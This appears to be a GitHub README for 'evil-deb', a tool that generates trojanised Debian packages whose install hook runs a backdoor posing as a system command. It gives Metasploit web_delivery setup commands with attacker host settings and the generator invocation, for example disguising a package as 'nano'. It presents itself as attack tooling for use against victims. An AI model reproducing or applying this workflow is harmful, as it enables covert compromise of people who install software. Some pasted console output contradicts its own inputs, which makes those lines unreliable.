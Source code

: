 # _______          _________ _         ______   _______  ______  
#(  ____ \|\     /|\__   __/( \       (  __  \ (  ____ \(  ___ \ 
#| (    \/| )   ( |   ) (   | (       | (  \  )| (    \/| (   ) )
#| (__    | |   | |   | |   | | _____ | |   ) || (__    | (__/ / 
#|  __)   ( (   ) )   | |   | |(_____)| |   | ||  __)   |  __ (  
#| (       \ \_/ /    | |   | |       | |   ) || (      | (  \ \ 
#| (____/\  \   /  ___) (___| (____/\ | (__/  )| (____/\| )___) )
#(_______/   \_/   \_______/(_______/ (______/ (_______/|/ \___/ 0.6v.
#                                                               
#                         Malicious Debain Package Creator
#                         WebSite :: http://haxkur1.mozello.com/
#			     By: @Killerpop

# evil-deb - Malicious Debian Package generator
Script to generate malicious debian packages (debain trojans).

#evil-debis a script which generates Malicious debian package for metasploit
    which consists of bash file. the bash file is deployed into "/usr/local/bin/" directory.
    
    Backdoor gets executed just when victim tries to install deb package due to postinst file
    
    Bash file injects and also acts like some system command which when executed by victim 
    and attacker hits with session.
    
    Plus Points :
    -- Fully indiependent. Means user no need to install any debian package creator
    -- Can be integrated with any payload generator easily due to engagements of arguemt 
    
    evil-deb basically depends upon web_delivery module and every thing is automated. 
    all the attacker needs is to do following settings :
    
    Setting up Web_Delivery in msf :
    
    msf > use exploit/multi/script/web_delivery
    msf exploit(web_delivery) > set srvhost 192.168.0.2
    srvhost => 192.168.0.102
    msf exploit(web_delivery) > set uripath /SecPatch
    uripath => /SecPatch
    msf exploit(web_delivery) > set Lhost 192.168.0.2
    Lhost => 192.168.0.102
    msf exploit(web_delivery) > show options
    msf exploit(web_delivery) > exploit
    
    Generating Malicious payload :
    
    root@killerpop ~/Desktop/projects/evil-deb $ sudo python evil-deb.py -n nano -l 127.0.0.1 -V 1.0 -a i386
    
    NOTE :: This project was made to be integrated with Venom Shellcode Generator 1.0.13.
    It can be used standalone also all user needs is to change uripath in msf variables
    -------------------------------------------------------------------------------------
    
    Tested on :
                Linux Mint 17.2 Cinnamon (Ubuntu 14.04) 
                ParrotOS (Debian Jessie)
                Kali Rolling 2017.3
# Updates :::
       0.6v.
   